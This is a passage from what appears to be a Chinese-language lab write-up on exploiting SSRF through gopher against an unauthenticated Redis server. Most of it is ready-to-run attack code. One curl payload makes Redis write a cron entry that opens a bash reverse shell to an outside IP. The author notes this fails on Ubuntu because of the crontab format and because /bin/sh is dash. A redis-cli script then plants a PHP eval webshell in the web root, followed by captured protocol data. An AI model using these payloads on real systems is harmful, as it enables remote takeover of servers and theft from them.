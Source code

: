 ```
curl -v 'http://192.168.31.54:8088/ssrf.php?url=gopher://127.0.0.1:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$61%0d%0a%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/101.34.83.83/6666 0>&1%0a%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a'
```

然后，我就踩坑了，ubuntu下我反弹不回来一个shell，真的要命。

ubuntu对crontab的格式要求比较严格，这里写入crontab文件的内容如下：

```sh
REDIS0006þ󿾁=


*/1 * * * * bash -i >& /dev/tcp/101.34.83.83/6666 0>&1



ÿ¯
```

这里由于格式问题，所以不能加入crontab的任务队列中

![image-20210713101751547](/images/image-20210713101751547.png)

这里还有另一个坑点是执行 crontab 使用的是 `/bin/sh` , 而ubuntu下`/bin/sh` 软连接的是dash ，而不是 bash，那么如果直接在 cron 里面写 bash - i xx 的反弹是不可能成功的。。。。所以环境不要用ubuntu，用centos！

具体参考这篇文章：[redis getshell实战](https://xiaopo.org/posts/eb21dee.html#crontab)



反弹shell搞不了那就写个webshell意思意思

写入webshell的前提：

* 知道web目录的绝对路径
* 当前运行redis的用户在web目录有写权限

exp:

```sh
redis-cli -h $1 -p $2 config set dir /var/www/html/
redis-cli -h $1 -p $2 config set dbfilename shell.php
redis-cli -h $1 -p $2 set shell "\\n<?php eval(\$_POST['cmd']);?>\\n"
redis-cli -h $1 -p $2 save
redis-cli -h $1 -p $2 quit
```

捕获的有效数据：

```
*4\r
$6\r
config\r
$3\r
set\r
$3\r
dir\r
$14\r
/var/www/html/\r
*4\r
$6\r
config\r
$3\r
set\r
```